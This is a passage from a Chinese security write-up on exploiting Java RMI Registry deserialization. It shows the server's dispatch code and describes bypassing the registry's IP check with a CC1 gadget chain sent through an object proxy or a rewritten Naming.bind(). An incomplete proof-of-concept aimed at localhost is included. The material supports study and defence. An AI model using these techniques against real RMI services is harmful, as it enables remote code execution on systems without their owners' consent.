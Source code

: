 进入 `RegistryImpl_Skel#dispatch()` 进行查看，代码如下:

```java
//这里的var2,var3都是Client端bind()请求发送的数据。下文会分析客户端如何发送bind()请求
public void dispatch(Remote var1, RemoteCall var2, int var3, long var4) {
    ObjectInput var11;
    switch(var3) {
        case 0:
            try {
                //由于RMI是使用反序列化传送类的
                //这里需要反序列化操作
                var11 = var2.getInputStream();
                //反序列化类名
                var7 = (String)var11.readObject();
                //反序列化Remote对象
                var8 = (Remote)var11.readObject();
            }
            .....
            //反序列化结束后才判断Client端是否本机
            var6.bind(var7, var8);
        .....
    }
}
```

可以发现，在调用 `RegistryImpl#bind()` 之前就已经对客户端发来数据进行反序列化了。我们的目标就是触发到这个反序列化。只要触发到反序列化，后面就算 `checkAccess()` 限制了IP也没有关系。

攻击面
---

### 使用对象代理,AnnotationInvocationHandler打CC1

综上所述，Registry端会反序列化Client发来的`Remote对象`。但由于`Naming.bind()`接收 的bind对象类型只能是 `Remote对象`。想直接打反序列化链子是不行的，因为这些链子的入口类都没有实现`Remote接口`，连`Naming.bind()`都没法正常执行。

怎么办呢？[参考文章](https://www.anquanke.com/post/id/197829)中给出的解决办法是用对象代理。步骤如下:

1. 对象代理实现`Remote接口`，以便`Naming.bind()`正常发送
2. `AnnotationInvocationHandler`是CC1的入口，我们可以让对象代理使用该`InvocationHandler`
3. 如此一来我们便可依赖`AnnotationInvocationHandler`打CC1了

这里直接参考 ysoserial 的 **exploit/RMIRegistryExploit** 即可，不详细展开。

### 仿写Naming.bind()，发送任意类型的对象

对象代理有限制的地方就是必须要找到一个能打exp的`InvocationHandler`。所以不太适配所有反序列化链子。

研究一阵发现，只是Client端 `Naming.bind()` 参数必须接受一个Remote对象，编译不通过而已。若我们仿写一个 `Naming.bind()` ，强制将对象发出，理论上就能发送任意反序列化链子了。

**poc:**

```java
//HashMap payload
HashMap hashMap = new HashMap<>();

//仿写的 Naming#bind()
LiveRef liveRef = new LiveRef(new ObjID(ObjID.REGISTRY_ID),
                              new TCPEndpoint("127.0.0.1", 1099, null, null),
                              false);
UnicastRef unicastRef = new UnicastRef(liveRef);
RegistryImpl_Stub registryImpl_stub = new RegistryImpl_Stub();
Operation[] operations = new Operation[]{new Operation("void bind(java.lang.String, java.rmi.Remote)"), new Operation("java.lang.String list()[]"), new Operation("java.rmi.Remote lookup(java.lang.String)"), new Operation("void rebind(java.lang.String, java.rmi.Remote)"), new Operation("void unbind(java.lang.String)")};

```
